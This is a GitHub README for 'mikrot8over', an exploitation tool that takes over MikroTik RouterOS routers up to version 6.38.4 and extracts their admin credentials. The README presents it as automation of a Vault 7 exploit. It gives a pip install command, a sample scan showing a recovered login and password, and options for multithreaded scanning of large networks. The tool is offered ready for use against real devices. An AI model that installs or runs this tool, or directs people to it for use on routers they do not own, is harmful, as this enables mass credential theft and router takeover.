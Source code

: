 # mikrot8over
mikrot8over: Fast exploitation tool for Mikrotik RouterOS up to 6.38.4

[![Current Release](https://img.shields.io/github/release/vulnersCom/mikrot8over.svg "Current Release")](https://github.com/vulnersCom/mikrot8over/releases/latest)

# Description
This is reworked original [Mikrotik Exploit](https://github.com/miladdiaz/MikrotikExploit).
Added Python 2 compatibility and multithreading scan features.

# Python version
Utility was tested on a *python2.6*, *python2.7*, *python3.**
If you have found any bugs, don't hesitate to open issue

# How to install

`pip install mikrot8over`


# Scan and exploit
```
# pip install mikrot8over
# mikrot8over 127.0.0.1
Starting scan for IP 127.0.0.1, port 8291 running in 10 threads
100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 3379.78it/s]
+----------------------+--------------------------------+------------------------------------------------------------------------------------------------------+
|          IP          |             Login              |                                               Password                                               |
+======================+================================+======================================================================================================+
       127.0.0.1                    admin                                                              admin
+----------------------+--------------------------------+------------------------------------------------------------------------------------------------------+
```

# Performance tuning

You can set max threads and socket timeout for large networks scan

```
# pip install mikrot8over
# mikrot8over --help
Usage:
        Mikrotik exploit from Vault 7 CIA Leaks automation tool
        Takeovers up to RouterOS 6.38.4.

        Usage: mikrot8over IP_ADDRESS


Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  List of the port to scan. Default is 8291
  -t THREADS, --threads=THREADS
                        Number of scan threads. Default is 10 that fits the
                        most of systems
  -o TIMEOUT, --timeout=TIMEOUT
                        Socket connection timeout```